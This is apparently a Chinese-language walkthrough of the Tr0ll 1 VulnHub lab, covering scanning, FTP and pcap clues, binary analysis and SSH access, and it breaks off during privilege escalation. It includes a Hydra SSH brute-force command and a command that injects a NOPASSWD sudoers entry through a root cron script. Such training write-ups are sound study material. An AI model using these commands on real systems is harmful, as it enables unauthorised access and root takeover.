# 前言

### 靶场介绍

Tr0ll 1 是一款灵感来源于 OSCP 实验室的初级难度靶机，主要考察渗透测试者的基础信息收集能力、网络流量分析（PCAP）、字典提取、防干扰心态以及基础的 Linux 提权技巧。该靶机整体充满“恶搞”（Troll）元素，需要细心甄别线索的真伪，非常适合新手熟悉渗透测试的完整流程。

### 靶场信息

**靶机IP**：192.168.200.163 （_注：实际运行环境中，IP 需根据本地虚拟机的 DHCP 网络环境使用扫描工具确定_） 
靶机介绍：[https://www.vulnhub.com/entry/tr0ll-1,100/](https://www.vulnhub.com/entry/tr0ll-1,100/) 
下载（镜像）：[https://download.vulnhub.com/tr0ll/Tr0ll.rar](https://download.vulnhub.com/tr0ll/Tr0ll.rar) 

### 涉及工具

- **主机发现与端口扫描：** Nmap, Netdiscover / arp-scan
    
- **Web 目录扫描：** Dirsearch，exiftool
    
- **文件传输服务：** FTP Client（用于测试匿名登录并下载线索文件）
    
- **流量包分析：** Wireshark（用于分析获取到的 `.pcap` 数据包）, Leetspeak
    
- **文件分析：** Strings（用于分析 ELF 二进制可执行文件以提取隐藏目录）
    
- **在线服务爆破：** Hydra（结合收集到的自定义字典进行 SSH 暴力破解）
    
- **远程连接：** SSH



# 1.信息收集

## 1.1.Nmap信息扫描

通过 Nmap 对目标靶机进行探测，明确开放的端口及具体服务版本，并排查常规漏洞。

### 端口扫描

```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

### 详细信息扫描

```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 192.168.200.142
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 600
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 1000     0            8068 Aug 10  2014 lol.pcap [NSE: writeable]
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d6:18:d9:ef:75:d3:1c:29:be:14:b5:2b:18:54:a9:c0 (DSA)
|   2048 ee:8c:64:87:44:39:53:8c:24:fe:9d:39:a9:ad:ea:db (RSA)
|   256 0e:66:e6:50:cf:56:3b:9c:67:8b:5f:56:ca:ae:6b:f4 (ECDSA)
|_  256 b2:8b:e2:46:5c:ef:fd:dc:72:f7:10:7e:04:5f:25:85 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/secret
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:6F:F7:D3 (VMware)
```

### 漏洞扫描

```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /robots.txt: Robots file
|_  /secret/: Potentially interesting folder
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
```

---
## 1.2.FTP渗透

根据 Nmap 扫描结果，目标 FTP 服务（21端口）允许匿名登录（Anonymous），并且根目录下存在一个名为 `lol.pcap` 的文件。



通过 FTP 客户端连接目标，使用 `prompt` 命令关闭交互提示，并使用 `binary` 命令将传输格式切换为二进制模式，随后将 `lol.pcap` 下载至本地进行分析。



### 流量文件分析

通过互联网方式查询得知 [.pcap](https://en.wikipedia.org/wiki/Pcap) 为网络数据包截获的文件，在上流量分析课时 Wireshark 抓包保存的就是这样的文件。

我们可以使用 Wireshark 打开该文件进行分析（也可使用 `strings` 命令初步提取二进制文件中的可打印字符）。

打开该流量文件后，可以发现报文数量并不多。通过追踪 TCP 数据流发现报文内容是，曾有用户通过匿名访问的方式登录了 FTP 服务，并请求下载了一个文件。那么此时的关键点在于：我们需要确认该文件中的具体内容，这应该是一个很重要的突破点。



**Client 报文：**

```
USER anonymous
PASS password
SYST
PORT 10,0,0,12,173,198
LIST
TYPE I
PORT 10,0,0,12,202,172
RETR secret_stuff.txt
TYPE A
PORT 10,0,0,12,172,74
LIST
QUIT
```

后续我在 Wireshark 底部定位到 FTP-DATA 协议报文，该报文记录了 `secret_stuff.txt` 的实际传输内容。查看其数据，提取到以下关键信息：

```
RETR secret_stuff.txt
W150 Opening BINARY mode data connection for secret_stuff.txt (147 bytes).
WWell, well, well, aren't you just a clever little devil, you almost found the sup3rs3cr3tdirlol :-P
Sucks, you were so close... gotta TRY HARDER!

```



**线索提取：**

文中包含一串可疑字符串：`sup3rs3cr3tdirlol`。那么该字符串可能为用户密码、SSH 密钥名称或隐藏的 Web 目录名？我们现在暂时不知道，将其记录备用，等 Web 渗透阶段进行交叉验证。

> 其实这里的字符串利用到了 [Leetspeak](https://en.wikipedia.org/wiki/Leet) 的方式，利用字符替换，通过镜像或其他相似方式来玩转字形的相似性

---
## 1.3.Web渗透

### 页面信息检索

访问目标 80 端口，Web 首页仅展示一张相关的图片（`hacker.jpg`）。

将图片下载至本地，排查是否存在隐写内容。使用 `exiftool` 检查其元数据，未发现有价值的隐写信息，确认为普通图片。



下载图片



图片内容

```bash
┌──(kali㉿kali)-[~/vulnhub/Tr0ll/web]
└─$ exiftool hacker.jpg 
ExifTool Version Number         : 13.25
File Name                       : hacker.jpg
Directory                       : .
File Size                       : 49 kB
File Modification Date/Time     : 2014:08:10 06:03:43-04:00
File Access Date/Time           : 2026:04:18 10:23:11-04:00
File Inode Change Date/Time     : 2026:04:18 10:23:11-04:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 407
Image Height                    : 405
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 407x405
Megapixels                      : 0.165

```

### 目录探测

结合 Nmap 前期的 `http-enum` 扫描结果以及常规的目录枚举，发现目标站点的两个关键路径：

1./robots.txt

文件内容如下，指向了一个名为 `/secret` 的目录，除此之外无其他有效信息。
```
User-agent:*
Disallow: /secret	
```

2.**`/secret/` 目录** (`http://192.168.200.163/secret/`)

访问该目录后，页面仅展示一张带有嘲讽意味的图片，图中写道 “你生气了吗”。未发现可利用的交互接口或敏感文件。后续有对图片隐写信息进行查看，也无有效内容。



**目录枚举结果：**



---
# 2.权限立足

## 2.1.线索收集和权限定位

首先回顾一下目前已掌握的信息：此前我们在 FTP 服务中获取了一个文件以及一串疑似密文的字符串（具体用途暂时未知）；Web 目录扫描虽然发现了两个目录，但均无实质性的有效利用结果。因此，当前的重心应当重新放回到从 FTP 获取的文件线索上，挖掘其潜在的利用方式。

顺着线索进一步探测，我们成功发现了一个隐藏的 Web 目录，并在该目录下定位到了一个名为 `roflmao` 的无后缀文件。



为了弄清该文件的具体类型，我们将其下载到本地，并使用 `file` 和 `binwalk` 命令进行基础探测：

```bash
┌──(kali㉿kali)-[~/vulnhub/Tr0ll/web]
└─$ file roflmao 
roflmao: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=5e14420eaa59e599c2f508490483d959f3d2cf4f, not stripped
┌──(kali㉿kali)-[~/vulnhub/Tr0ll/web]
└─$ binwalk roflmao 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             ELF, 32-bit LSB executable, Intel 80386, version 1 (SYSV)

```

结果显示，这是一个 32 位的 ELF 格式可执行文件，不存在地址偏移。
## 2.2.二进制文件逆向分析

针对该 ELF 文件，我们可以直接赋予执行权限运行、使用 `strings` 命令提取可打印字符，或者借助逆向工具及 AI 辅助进行反汇编分析。
### 使用 AI 逆向

#### 基本信息

|属性|值|
|---|---|
|格式|ELF 32-bit LSB 可执行文件|
|架构|Intel 80386 (x86)|
|大小|7296 字节|
|编译器|GCC 4.8.2 (Ubuntu)|
|符号表|**未剥离**（not stripped）|

#### `main` 函数反汇编

```asm
0804841d <main>:
  push   %ebp
  mov    %esp, %ebp
  and    $0xfffffff0, %esp     ; 栈对齐到 16 字节
  sub    $0x10, %esp
  movl   $0x80484d0, (%esp)    ; 压入字符串地址作为参数
  call   printf@plt            ; 调用 printf
  leave
  ret
```

#### 逻辑还原（伪 C 代码）

```c
int main() {
    printf("Find address 0x0856BF to proceed");
    return 0;
}
```

程序逻辑极其简单：**只打印一条消息就退出**。

## 2.3 深入隐藏目录与字典获取

程序输出的字符串是：

```
Find address 0x0856BF to proceed
```

这是一道典型的 CTF "寻找地址" 挑战。由于地址 `0x0856BF` 并不在这个二进制文件本身的内存地址范围内（二进制加载基址约为 `0x08048000`，文件大小只有 7KB），结合当前的 Web 靶机环境，我猜测这个“地址”很可能是 Web 服务上的另一个隐藏目录。

经过浏览器访问尝试，证实了这个猜想。在 `http://<Target-IP>/0x0856BF` 目录下，确实存在两个新的文件夹：

- `good_luck`
    
- `this_folder_contains_the_password`
    


进一步查看这两个文件夹的内容，我们分别获得了一份潜在的用户名字典（`which_one_lol.txt`）和一份密码字典（`Pass.txt`）。

**查看文件，内容如下：**



## 2.4.密码爆破

既然提示了这是密码和用户列表，接下来的思路自然是利用这些字典对目标主机的 SSH 服务进行自动化爆破。这里可以使用 CrackMapExec 或 Hydra 等工具。

CrackMapExec 工具爆破方法：



使用 Hydra 的枚举爆破命令及结果如下：

```
hydra -L which_one_lol.txt -p Pass.txt ssh://192.168.200.163 -t 16 -f -u
```



### SSH密码

- **账号:** `overflow`
    
- **密码:** `Pass.txt` _(注意：这里的密码恰好就是获取到的文本文件名称本身)_

尝试登入，成功登入。



# 3.提权

## 3.1 基础信息与环境探测

获得初始 shell 后，首先进行常规的系统信息收集，明确当前的用户权限和系统版本。

```bash
$ whoami
overflow

$ uname -a
Linux troll 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:12 UTC 2014 i686 athlon i686 GNU/Linux

$ sudo -l
[sudo] password for overflow: 
Sorry, user overflow may not run sudo on troll.

$ cat /etc/crontab      
cat: /etc/crontab: Permission denied
```

尝试查看计划任务配置文件 `/etc/crontab` 被拒，检查 SUID 文件也未发现明显的可利用项。

## 3.2 异常现象分析

在常规探测（如查看 `/etc/passwd`、浏览 `/var/www/html/` 目录）的过程中，发现了一个非常有趣的现象：**SSH 会话会定时自动强制断开**，并伴随如下提示：

```bash
Broadcast Message from root@trol                                           
        (somewhere) at 12:00 ...
                                               
TIMES UP LOL!   
                                                 
Connection to 192.168.200.163 closed by remote host.
Connection to 192.168.200.163 closed.          
```



**分析：** 正常情况下 SSH 不会自动踢人。这说明系统后台极有可能运行着某个**计划任务 (Cron Job)**。如果这个任务是由 root 权限执行的，只要我们能找到并篡改该任务触发的脚本，就能借此获取 root 权限。

## 3.3.定位并分析计划任务

由于在之前测试没有权限直接读取 `/etc/crontab`，我们转换思路，全局搜索与 cron 相关的日志文件：

```bash
$ find / -name cronlog 2>/dev/null | grep -v '/proc'
/var/log/cronlog

$ cat /var/log/cronlog 
*/2 * * * * cleaner.py
```

>[!tip]
>**笔记拓展：Cron 表达式解析** 
>
>
>这里查到的时间字段是 `*/2 * * * *`。 _需要注意：`*/2` 代表的是**每隔 2 分钟**执行一次，而 `2 * * * *` 代表的是每小时的**第 2 分钟**执行。
>- **`2` (分钟)**：指在每小时的**第 2 分钟**。
>- **`*` (小时)**：通配符，表示**每一个小时**。
>- **`*` (日期)**：通配符，表示**每一天**。
>- **`*` (月份)**：通配符，表示**每一个月**。
>- **`*` (星期)**：通配符，表示**每一周的每一天**。

## 3.4 实施提权

现在的思路非常明确，往 `cleaner.py` 中插入提权代码。使我们的目标是赋予 `overflow` 用户无密码使用 `sudo` 的权限。

**注意：** 因为这是一个 Python 脚本，我们不能直接写入 Bash 语法。需要利用 Python 的 `os.system()` 模块来执行 Bash 命令。

执行以下命令，将篡改 Sudoers 文件的指令追加到脚本末尾：

```bash
echo 'os.system("echo \"overflow ALL=(ALL)NOPASSWD: ALL\" >> /etc/sudoers")' >> /lib/log/cleaner.py
```



**Bash命令解析：**

- **目标**：向 `/etc/sudoers` 文件（控制系统 sudo 权限的核心文件）追加一行内容。
    
